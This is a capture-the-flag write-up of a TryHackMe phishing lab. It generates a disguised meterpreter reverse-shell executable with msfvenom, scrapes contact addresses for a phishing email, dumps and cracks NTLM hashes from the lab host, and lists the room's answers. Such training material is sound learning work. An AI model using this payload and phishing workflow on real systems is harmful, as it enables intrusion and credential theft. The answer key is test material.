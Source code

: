 # Gone Phishing

Although I skimmed over the first two room of the five part series on Phishing on THM it seems that this lab has cool emulate-a-regular-user-bot that downloads malicious software for us. 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe -o NotAShell.exe
```

While in the background I run brutespray, just like *always recon in the background* you there is also password spraying or sqlmap in the background. Making a payload with msfvenom:  
![gp-payload](gp-payload.png)

Setting a listener in metasploit multi/handler:  

![gp-listener](gp-mutlihandler.png)

Before starting to copy and paste "compose the correct email for the bot to download our reverse shell", quick script to format the `To:`  field of the phishing email. Using some bash, to awk for the 4th field of contacts.txt which is just the address book from the thbguest email, printing out all the email address then pipe to translate with the substitution flag to replace newline chars with a comma and whitespace:
```bash
awk '{print $4}' contacts.txt | tr -s "\n" ", "
```

The result:
![gp-awking](gp-bash-magic.png)

Now to construct the rest of the email:

![gp-bigphish](gp-big-phish.png)

Attach before sending:

![gp-attach](gp-attachit.png)

And then..
![gp-bigcatchy](gp-thecatch.png)

Instantly loaded kiwi and then enumerating the box
![gp-landed](gp-ws-is-online.png)

Root flag and use of the search just for showcasing and timing how long search takes. One thing that I have discover going back to Windows as a hacker is that searching the filesystem is mindblobblingly slow.
![gp-landed](ws-root-flag.png)
![gp-humpty](gp-user-flag.png)
Then I migrated process to one owned by the NT AUTHORITY and dumped the hashes:

```toggle
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BlaireJ:1001:aad3b435b51404eeaad3b435b51404ee:c374ecb7c2ccac1df3a82bce4f80bb5b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd:1002:aad3b435b51404eeaad3b435b51404ee:50527b4bfe81a64edf00e6b05c26c195:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0a06b1381599f2c8c8bfdbee39edbe1c:::
```

Then I cracked the hashes after first using some more awk-some awk command with -F for field seperator ":" which select fields or sections of text by a demiliter or symbol that seperates the fields:
```bash
cat hashesWS1 | awk -F : '{print $4}' > WS1hashes
```
![gp-hashcrackin](pg-hashcrackin.png)

## Answers 
What User was compromised via Phishing?
```{toggle}
BlaireJ
```
What Machine was compromised during Phishing?
```{toggle}
 THROWBACK-WS01
```